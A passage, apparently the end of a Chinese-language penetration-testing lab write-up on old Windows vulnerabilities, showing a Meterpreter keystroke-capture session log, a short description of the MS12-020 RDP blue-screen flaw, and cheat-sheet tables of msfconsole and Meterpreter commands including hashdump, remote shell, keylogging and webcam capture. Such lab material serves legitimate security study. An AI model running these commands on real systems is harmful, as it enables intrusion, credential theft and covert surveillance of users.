meterpreter > getuid
Server username: WIN-3GJGECVHTIC\arwell
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
ni hao<CR>
<Shift>wo shi at<^H>rwell<Shift>!

meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

### MS12-020[RDP]

#### 漏洞描述

远程桌面协议存在的一个重大漏洞，入侵者可以通过向远程桌面默认端口（3389）发一系列特定RDP包，从而获取超级管理员权限，进而入侵系统。开放远程桌面服务并使用默认的3389端口的会成为攻击目标。
此外远程桌面协议（RDP）是一个多通道（multi-channal）的协议，可用于做DoS攻击。
根据微软的安全公告，Windows全系列操作系统（WinXP/Vista/Win7/Win2000/ Win2003/Win2008）均存在受控威胁。

这个漏洞这里不做复现，大致流程跟MS17-010类似，先扫描再攻击，但是这个漏洞是进行蓝屏攻击，不是获取权限。具体参考[远程桌面--------ms12-020 漏洞复现 （死亡蓝屏）](https://www.cnblogs.com/R-Hacker/p/9178066.html)

### 小结

`nmap`: 扫描目标主机的开放端口，确定可以利用的漏洞（`445`,`3389`）

`msfconsole`:

| 命令 | 用途 |
|:---:|:---:|
|`search <str>`| 查找相应漏洞模块 |
|`use <module's name/index>`| 选择使用模块 |
|`back`| 推出当前模块 |
|`show options`| 查看模块需要设置的参数 |
|`set <argv name> <argv value>`| 设置参数 |
|`show <argv name>`| 查看参数可选值 |
|`run`| 按照参数运行模块 |

`meterpreter`:

| 命令 | 用途 |
|:---:|:---:|
|`getuid`| 查看权限 |
|`shell`| 获得目标shell |
|`screenshot`| 屏幕截图 |
|`upload <file>`| 上传文件 |
|`download <file>`| 下载文件 |
|`hashdump`| 获取口令哈希 |
|`ps`| 查看目标进程 |
|`migrate <PID>`| 迁移进程 |
|`keyscan_start`| 开启键盘监听 |
|`keyscan_dump`| 输出键盘监听内容 |
|`keyscan_stop`| 停止键盘监听 |
|`webcam_list`| 查看摄像头 |
|`webcam_snap`| 通过摄像头拍照 |
|`webcam_stream`| 通过摄像头拍摄视频 |


---

### 参考

- [1] [渗透测试-[windows-MS08-067、MS10-046、MS17-010、MS12-020]](https://blog.csdn.net/m0_43405474/article/details/124589790)

- [2] [ms08-067漏洞复现](https://blog.csdn.net/weixin_43901998/article/details/108490618)

